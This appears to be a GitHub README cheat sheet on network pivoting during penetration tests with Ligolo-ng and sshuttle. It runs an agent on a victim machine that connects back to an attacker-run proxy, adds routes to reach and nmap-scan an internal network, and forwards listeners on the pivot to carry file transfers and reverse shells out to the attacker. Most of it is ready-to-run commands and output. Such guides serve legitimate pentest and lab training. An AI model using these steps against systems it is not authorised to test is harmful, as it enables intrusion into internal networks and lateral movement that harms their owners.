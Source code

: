 # Pivoting

# Ligolo-ng
### Download link for ligolo-ng<br/>
Link: https://github.com/nicocha30/ligolo-ng<br/>

### Creating Interface
```
sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
```

### PROXY - server needs to be run on attacker machine 
#### start the server
```sudo ./proxy -laddr 0.0.0.0:<port> -selfcert```

### Agent - agent needs to be run on victim machine
#### connect the agent to server
##### windows agent
```.\agent.exe -connect <LHOST>:lport -ignore-cert```
##### linux agent
```./agent -connect <LHOST>:lport -ignore-cert```

### List the sessions
```ligolo-ng » session ``` #list session<br/>
```[Agent : client@client-virtual-machine] » ifconfig``` #check different network interfaces that victim connected
```You will receive result something like below
   ┌───────────────────────────────────────────────┐
   │ Interface 4                                   │
   ├──────────────┬────────────────────────────────┤
   │ Name         │ ens37                          │
   │ Hardware MAC │ 00:0c:29:45:60:ff              │
   │ MTU          │ 1500                           │
   │ Flags        │ up|broadcast|multicast|running │
   │ IPv4 Address │ 10.10.10.148/24                │
   │ IPv6 Address │ fe80::f04d:685d:278c:9642/64   │
   └──────────────┴────────────────────────────────┘
```

### Now to pivot to above example network run
```sudo ip route add ip/24 dev ligolo``` #ip here with above example 10.10.10.0/24

### Finally start the tunnel
```[Agent : client@client-virtual-machine] » tunnel_start```

### Now you can access all the machines inside the above example network 10.10.10.0/24
```sudo nmap 10.10.10.0/24```
![image](https://github.com/bhanugoudm041/Pivoting/assets/92798414/a703906f-b7db-4a33-b3fd-0bfed798101e)

# Transfer files or gain reverseshells from internal network to external network
Once you create the tunnel to internal network through a pivot server(agent)</br>
Run below command on server(attacker/proxy)</br>
It will create a listener on agent or victim machine & forward the traffic to attacker machine when we tried accessing it from internal network with agentserver(pivotserver) ip & listener port we used.</br>
```
listener_add --addr agentip(pivot):agentlistenport --to proxyip(attacker):proxyport --tcp
listener_list
```
<img width="3360" height="436" alt="image" src="https://github.com/user-attachments/assets/5332ff50-d398-490c-a68b-a4f29e1f4909" />
Start the HTTP server or netcat listener on proxy port that we mentioned above</br>
<img width="1525" height="146" alt="image" src="https://github.com/user-attachments/assets/96e6ddd7-0d1a-4762-aff4-053a06786c1a" />
Now access the attacker machine from internal network with agentlistener ip&port
<img width="2574" height="59" alt="image" src="https://github.com/user-attachments/assets/dd0d1399-9f0f-4f3c-aab4-ed7da9ddabdf" />
For reverseshell just generate the revershell with agentlistner(pivot) ip/port


# Sshuttle<br/>
### Install sshuttle on kali or attacker machine<br/>
``` sudo apt install sshuttle```
### Start the tunnel<br/>
```sudo sshuttle -r targetuser@targermachineip targetpivotnetwork```  #example: sudo sshuttle -r client@192.168.1.20 10.10.10.0/24<br/>
### Now use curl or wget or browser to access pivoted network services<br/>
curl http://pivotnetworkmachineip:port/   #example: curl http://10.10.10.132:80/<br/>
![image](https://github.com/bhanugoudm041/Pivoting/assets/92798414/2d0da11f-063c-444b-a71c-17c8eec34ca9)



